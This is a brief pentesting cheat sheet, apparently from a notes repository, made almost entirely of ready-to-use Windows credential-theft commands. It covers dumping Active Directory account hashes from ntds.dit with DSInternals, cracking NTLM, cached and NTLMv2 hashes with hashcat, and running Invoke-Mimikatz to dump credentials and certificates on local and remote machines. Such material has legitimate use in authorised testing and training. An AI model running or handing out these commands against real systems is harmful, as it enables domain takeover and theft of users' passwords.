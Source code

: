 #### Load DSinternals
- https://github.com/MichaelGrafnetter/DSInternals/releases/tag/v4.4.1
```
unblock-file DSInternals_v4.7.zip
expand-archive DSInternals_v4.7.zip -DestinationPath C:\Windows\system32\WindowsPowerShell\v1.0\Modules\DSInternals
```

#### Dump with DSinternals
```
$key = Get-BootKey -SystemHiveFilePath <PATH TO SYSTEM>
Get-ADDBAccount -all BootKey $key -DBPath <PATH TO ntds.dit>

Get-ADDBAccount -samaccountname administrator -BootKey $key -DBPath <PATH TO ntds.dit>
```

## Hashcat
- If you set usernames in the file use with `<USERNAME:<HASH>` format. Use --Username
#### Crack NTLM
- Format `5b184274dcba7bfd289e8a4f439676a4`
```
.\hashcat.exe -a 0 -m 1000 .\hast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack Cached credentials
- Format `$DCC2$#user#7eb833ab3bddade058de4bc672debdde`
```
.\hashcat.exe -a 0 -m 2100 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack NTLMv2
- Format `admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030`
```
.\hashcat.exe -a 0 -m 5600 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

## Mimikatz
- Check out https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md for more commands

#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```

#### Mimikatz dump certs
```
Invoke-Mimikatz –DumpCerts
```
